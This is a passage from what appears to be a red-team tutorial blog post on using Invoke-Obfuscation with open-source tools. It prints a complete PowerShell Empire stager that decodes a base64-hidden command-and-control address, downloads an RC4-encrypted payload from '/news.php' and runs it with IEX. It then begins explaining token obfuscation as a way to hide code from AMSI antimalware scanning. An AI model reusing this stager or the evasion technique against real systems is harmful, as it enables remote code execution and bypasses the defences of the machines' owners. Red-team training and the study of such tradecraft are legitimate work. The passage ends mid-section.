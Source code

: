 A script will come in play in our aid when it comes obfuscation, so lets Invoke-Obfuscation!

## Invoke-Obfuscation {#invokeobfuscation}
If you have not already viewed Daniel Bohannon's presentations about <a href="https://github.com/danielbohannon/Invoke-Obfuscation" target="_blank" rel="noopener noreferrer">Invoke-Obfuscation </a>, I invite you to take a look at the following <a href="https://www.youtube.com/watch?v=uE8IAxM_BhE" target="_blank" rel="noopener noreferrer">presentation1 </a> or <a href="https://www.youtube.com/watch?v=k5ToL0J7uL0" target="_blank" rel="noopener noreferrer">presentation2 </a>.

<div>
<center><img src="/images/2020-04-11-RedTeam-Exercises-with-OpenSource-Tools/invo1.png">
 </center>
</div>

"ScriptPath" is setting the path for reading the content from a file, in my case will be "/tmp/test.ps1", where test.ps1 is containing the following code:

{% highlight powershell %}
$ErrorActionPreference = "SilentlyContinue";$ebDd=NEW-ObjecT SySteM.NET.WeBCLiEnt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$ser=$([TEXt.ENCODInG]::UNICoDe.GeTStRiNG([ConVert]::FrOmBaSe64STRIng('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQA2ADAALgAxADMANAA6ADgAMAA=')));$t='/news.php';$EbdD.HeADErS.ADD('User-Agent',$u);$EBdD.ProXy=[SySTem.Net.WebREqUEst]::DeFaulTWEbPrOXy;$EBdD.PrOXY.CredEnTIALs = [SYsTem.NET.CredenTIAlCACHe]::DeFauLtNetWoRKCreDenTIAls;$Script:Proxy = $ebdd.Proxy;$K=[SySTeM.Text.ENcOdiNG]::ASCII.GEtBytEs('*VWR/g_v[59+~38qlKjd6(hcws|#ON0B');$R={$D,$K=$ARgS;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COUNt])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxOR$S[($S[$I]+$S[$H])%256]}};$eBdd.HEadErS.ADD("Cookie","bBxqmHhF=Xw9FMjBYWNyNHKSPRXrSEYxLcPA=");$DAtA=$ebDD.DOWnlOAdDaTA($ser+$T);$IV=$daTA[0..3];$DAtA=$DATA[4..$DAtA.LENGth];-joiN[CHAr[]](& $R $dATA ($IV+$K))|IEX

{% endhighlight %}

Without entering in to many details about it, lets see a little about its obfuscation techniques:

<b>1. Token obfuscation</b><br/>
The most used obfuscation method in our days is based on token, in special Empire is coming with Token/ALL obfuscation as default. If you chose to go for the Token/ALL, it will do a long set of changes like variable insertation, concatenation, comments removing, variable renaming, inserting random whitespace, etc. It is extremly useful for masking variable names to AMSI.
<div>